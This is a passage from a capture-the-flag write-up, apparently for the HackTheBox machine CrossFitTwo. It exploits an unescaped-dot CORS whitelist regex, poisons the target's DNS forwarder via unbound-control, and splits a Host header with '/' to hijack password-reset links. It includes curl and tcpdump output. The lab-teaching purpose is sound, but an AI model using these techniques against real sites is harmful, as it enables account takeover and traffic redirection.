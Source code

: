 
The intended trick here (which is very hard to notice) is that often times these CORs allow whitelists will be entered as a series of regular expressions. If that’s the case, then CrossfitTwo could be configured to allow something like:

```

(gym|employees).crossfit.htb

```

Done correctly, those `.` would be escaped as `\.`, but without the escape, they represent any one character. It works because `.` is one character, but it also allows for additional domains. I can test this by looking at another OPTIONS request:

```

oxdf@parrot$ curl -s -X OPTIONS -v -H "Origin: http://employeesXcrossfit.htb" crossfit-club.htb/api/auth 2>&1 | grep Access-Control-Allow-Origin
< Access-Control-Allow-Origin: http://employeesXcrossfit.htb

```

It works!

#### CORS and relayd

Unfortunately, this domain will not be routed by relayd to the site I want to use. How would I use a domain that matched both `*employees.crossfit.htb` and `(gym|employees).crossfit.htb`. The intended trick here again is to think about how each is viewed.

The PHP script that is looking at the `Host` header is parsing it to form the password reset link. It is likely to break the string apart on a special character. But `relayd` isn’t looking at that character, but the entire host, and matching a regex on the end. That means that a request with a `Host` header that’s broken with a `/` could work. To test, I’ll register `gymXcrossfit.htb` with `unbound-control`:

```

oxdf@parrot$ sudo unbound-control -s 10.10.10.232 forward_add +i gymxcrossfit.htb 10.10.14.13@53
ok

```

Now I’ll send the password reset with the following `Host` header:

```

Host: gymxcrossfit.htb/employees.crossfit.htb

```

It worked:

```

14:43:19.562677 IP 10.10.10.232.45069 > 10.10.14.13.53: 21358+ [1au] A? gymxcrossfit.htb. (45)
14:43:19.575908 IP 10.10.14.13.53 > 10.10.10.232.45069: 21358 NXDomain$ 0/6/1 (1024)

```

